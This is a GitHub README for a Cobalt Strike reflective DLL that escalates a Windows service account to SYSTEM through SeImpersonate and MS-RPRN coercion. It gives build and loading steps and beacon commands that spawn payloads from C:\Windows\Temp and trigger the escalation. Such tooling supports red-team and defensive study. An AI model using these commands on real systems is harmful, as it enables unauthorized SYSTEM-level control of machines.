 # Coerced Potato Reflective DLL

Privilege escalation from NT Service to SYSTEM using SeImpersonateToken privilege and MS-RPRN functions.
Heavily based on https://github.com/Prepouce/CoercedPotato


Reflective Loader from https://github.com/stephenfewer/ReflectiveDLLInjection.

## Install

Clone this repo and compile the project in VisualStudio then load `dist/coercedpotato.cna` into CobaltStrike.

## Usage

You first need to spawn the RPC listener with
```
beacon> CoercedPotato spawn ProcessToSpawn OptionalCmdArgument
```

for example
```
beacon> CoercedPotato spawn C:\Windows\Temp\beacon.exe
beacon> CoercedPotato spawn C:\Windows\Temp\loader.exe C:\Windows\Temp\beacon.bin
```

then you can trigger a SYSTEM call
```
beacon> CoercedPotato coerce
```

<p align="center">
  <img src="img/poc.png">
</p>

